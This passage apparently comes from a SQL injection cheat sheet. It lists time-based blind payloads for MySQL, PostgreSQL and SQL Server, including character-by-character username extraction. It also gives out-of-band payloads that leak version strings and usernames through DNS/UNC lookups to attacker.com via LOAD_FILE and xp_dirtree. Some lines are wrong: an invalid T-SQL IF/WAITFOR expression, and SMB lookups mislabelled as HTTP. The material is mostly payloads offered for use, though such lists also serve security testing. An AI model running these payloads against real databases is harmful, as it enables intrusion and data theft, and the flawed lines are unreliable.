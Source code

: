 #### Time-Based Blind SQL Injection
Uses time delays to infer information when no visible changes occur.

**MySQL Time-Based Payloads:**
```sql
-- Basic time delay
1 AND SLEEP(5)--

-- Conditional time delay
1 AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--

-- Extract data with time delays
1 AND IF((SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a',SLEEP(5),0)--
```

**PostgreSQL Time-Based Payloads:**
```sql
-- Basic time delay
1; SELECT pg_sleep(5)--

-- Conditional time delay
1 AND CASE WHEN (SELECT COUNT(*) FROM users)>0 THEN pg_sleep(5) ELSE 0 END--
```

**SQL Server Time-Based Payloads:**
```sql
-- Basic time delay
1; WAITFOR DELAY '00:00:05'--

-- Conditional time delay
1 AND IF((SELECT COUNT(*) FROM users)>0,WAITFOR DELAY '00:00:05',0)--
```

### 3. 🔄 Out-of-Band SQL Injection

Uses alternative channels to extract data when in-band techniques fail.

**DNS Exfiltration (MySQL):**
```sql
-- Load file to trigger DNS lookup
1 AND LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\test.txt'))--

-- Extract data via DNS
1 AND LOAD_FILE(CONCAT('\\\\',(SELECT username FROM users WHERE id=1),'.attacker.com\\test.txt'))--
```

**HTTP Exfiltration (SQL Server):**
```sql
-- Use xp_dirtree to make HTTP request
1; EXEC xp_dirtree '\\attacker.com\share'--

-- Extract data via HTTP
1; DECLARE @data VARCHAR(100); SELECT @data=(SELECT TOP 1 username FROM users); EXEC xp_dirtree CONCAT('\\',@data,'.attacker.com\share')--
```

